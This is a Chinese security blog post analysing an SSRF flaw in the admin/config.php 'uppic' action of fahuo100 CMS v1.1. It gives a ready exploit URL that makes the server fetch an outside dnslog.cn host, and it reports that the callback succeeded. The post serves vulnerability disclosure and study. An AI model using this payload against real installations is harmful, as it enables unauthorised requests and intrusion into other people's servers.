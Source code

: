 #  发货100cms存在SSRF漏洞分析   
原创 猫鼠信安  猫鼠信安   2024-12-02 01:51  
  
- ## 注：仅供安全研究与学习之用，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布者不承担任何法律及连带责任。  
<table><tbody><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><td data-colwidth="557" width="557" valign="top" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;visibility: visible;"><p style="-webkit-tap-highlight-color: transparent;margin-top: 8px;margin-bottom: 8px;outline: 0px;visibility: visible;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;font-size: 14px;visibility: visible;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;color: rgb(217, 33, 66);visibility: visible;"><strong style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><span leaf="">声明：</span></strong></span><span leaf="">该公众号分享的安全工具和项目均来源于网络，仅供安全研究与学习之用，如用于其他用途，由使用者承担全部法律及连带责任，与工具作者和本公众号无关。</span></span></p></td></tr></tbody></table>  
  
现在只对常读和星标的公众号才展示大图推送，建议大家把  
猫鼠信安  
“  
设为星标  
”，  
否则可能看不到了  
！  
  
-   
厂商官网：https://www.fahuo100.cn/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/dZ5pDwTw55v8gQBapfa8T80cDC4zv8Mt0K4S0QhI0EG19g1ib4HBibBbNrT4ZFDomIF7D1V7xFCIHshDqQdBeY1g/640?wx_fmt=png&from=appmsg "")  
  
下载最新版本即可。  
  
影响版本：  
v1.1_build20240803  
  
漏洞分析：  
  
涉及到的文件：admin/config.php  
  
1、  
当action等于uppic时，使用get的方式传参，并把file的值传到file变量，此后再进入if(tooss($file))进行判断  
  
![](https://mmbiz.qpic.cn/mmbiz_png/dZ5pDwTw55v8gQBapfa8T80cDC4zv8MtobcO0hSfbwNcnJibCNpKib2wKodulh3POp1FJzSBWpnQicicZrNTsMDZ3A/640?wx_fmt=png&from=appmsg "")  
  
跟进tooss方法可以看到上述的值传递到tooss方法中， 并传递到if判断语句中的  
file_get_contents  
，直接导致ssrf漏洞产生  
  
![](https://mmbiz.qpic.cn/mmbiz_png/dZ5pDwTw55v8gQBapfa8T80cDC4zv8MtIf5MXJtuC3xiaOWkcu8HwpiaYNrDYwedZ5JLzKjohs02onK6n5HNvyVw/640?wx_fmt=png&from=appmsg "")  
  
漏洞复现：  
  
  
根据上述分析代码，直接拼接语句  
  
http:// 127.0.0.1:82/admin/config.php?action=uppic&file=你的payload  
  
漏洞url为：  
  
http://127.0.0.1:82/admin/config.php?action=uppic&file=http://mazqd8.dnslog.cn  
  
登录系统的状态下访问漏洞url  
  
![](https://mmbiz.qpic.cn/mmbiz_png/dZ5pDwTw55v8gQBapfa8T80cDC4zv8Mtjicic8KicLcxSj2AkSApBNbKsk6F8VCiadOEPul6UAQPmibia6phuFj6ibLSg/640?wx_fmt=png&from=appmsg "")  
  
  
   
  
可以看到外带回显成功，证明存在ssrf  
  
![](https://mmbiz.qpic.cn/mmbiz_png/dZ5pDwTw55v8gQBapfa8T80cDC4zv8MtxOBTkBPjOPBxuFficO5k479EynBOvKHibo4wib7eGfZ19E9DKNdk0EZgg/640?wx_fmt=png&from=appmsg "")  
  
  
## 点击下方名片进入公众号  
  
  
  
